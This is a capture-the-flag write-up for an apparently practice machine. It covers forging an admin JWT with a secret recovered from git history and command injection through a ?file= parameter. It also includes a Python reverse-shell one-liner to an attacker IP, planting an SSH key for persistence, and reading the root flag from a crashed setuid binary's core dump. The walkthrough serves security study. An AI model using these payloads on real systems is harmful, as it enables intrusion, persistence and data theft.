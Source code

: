 IT'S ALL ABOUT READING DOCS.
---
![](https://i.ibb.co/nfFw67L/secret.png)\
\
\
*note that i skipped useless parts like "we can see this, but as we can see, it's not important to us"*

```
POST /api/user/register HTTP/1.1
Content-Type: application/json //important to add
[blabla]

  {
	"name": "hihihi",
	"email": "hihihi@gmail.com",
	"password": "hihihi"
  }
```
`response : {"user": "hihihi"} // user created`
\
\
\
```
POST /api/user/login HTTP/1.1
[BLABLA]
  {
	"email": "hihihi@gmail.com",
	"password": "hihihi"
  }
```
`response : [OUR JWT TOKEN.... ALSO AS auth-token header.]`
\
\
**/download - DOWNLOAD THE SOURCE CODE**

`// important to proceed further, easily discoverable by gobuster, ffuf,.. what do you prefer`

- we can see, that in .env file, there's **theadmin** user.     `// in jwt.io, rename yourself to "theadmin"`
- the secret seems to be **secret**, but it's false. (checking with jwt.io)     `// reading the file + trying it in burp.. token is invalid.`
- as we can see .git, we can try `git log` to see changes.     `// yes`
```
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons // one of the snippets, that is key to us.
```
THE COMMAND FOR TIME TRAVEL BACK IS : `git HEAD~2`.
after that, we can see **TOKEN_SECRET**, with different secret    
\
`// the secret works, trust me... or more like try it.`

```
GET /api/priv 
auth-token: [token with secret]
```
`response : "desc":"welcome back admin"            // confirms it works.`
\
\
\
- with the command `git HEAD~2`, we can also see a snippet of js code : 
```
router.get('/logs', verifytoken, (req, res) => {
+    const file = req.query.file;     // creates ?file param.
+    const userinfo = { name: req.user }
+    const name = userinfo.name.name;
```
- the most interesting for us is `req.query.file`, which creates ?file= param.
\
`?file=index.js;id // command injection`\
`?file=index.js;cat+/home/dasith/user.txt // getting USER FLAG [not gonna leak for you]`

now, we need to get into the server. found this cool blog : https://www.aldeid.com/wiki/Command-injection-to-shell --> it is not working, but interesting method as well. nice to read.


`python3+-c+'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[your ip]",[port]));os.dup2(s.fileno(),0);+os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import+pty;+pty.spawn("sh")' // classic way ; it works. (done with burp)`

So, we got reverse shell, but let's be honest, reverse shell is shit. as we can see from nmap scan, 22 is open, meaning we can connect via ssh.
\
- let's go into `/home/dasith` directory ;
```
mkdir .ssh
cd .ssh
ssh-keygen -t rsa //spam enter
cat id_rsa.pub > authorized_keys
chmod 600 authorized_keys
chmod 700 id_rsa
cd ..
chmod 700 .ssh
```

- copy the id_rsa into your machine `//cat id_rsa and copy it`
```
ssh -o StrictHostKeyChecking=no -i id_rsa dasith@10.10.11.120 uptime // add our host to verified
ssh -id_rsa dasith@10.10.11.120 //connect 
```
- in `/opt`, there's strange file **count**

`./count`

**note:** here, i was stuck for a long period of time. especially with the `apport-unpack`, which i never heard of.
```
Enter source file/directory name: /root/root.txt // we want to get root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ctrl^Z // background the proccess
```
let's kill it!
```
ps //see PID of the script
kill -SIGSEGV [PID] // kill the proccess
fg // get back from background
Segmentation fault (core dumped) // BroKEn
```
as we can see, we broke it.
crash logs are in `/var/crash/`. there, we can use one cool utility i didn't know = `apport-unpack`

`apport-unpack _opt_count.1000.crash [directory whenever you want] // 1000 is right, others are useless`\
`cd [crashes]`

now, most interesting is CoreDump obviously, since the error was `Segmentation fault (core dumped)`\
`strings CoreDump // find the root flag.`

thanks.

**what i used :** 
\
              https://askubuntu.com/questions/45679/ssh-connection-problem-with-host-key-verification-failed-error \
              https://jwt.io/ \
              https://www.unix.com/man-page/linux/1/apport-unpack/ 
              
https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens for jwt pentesting.
              
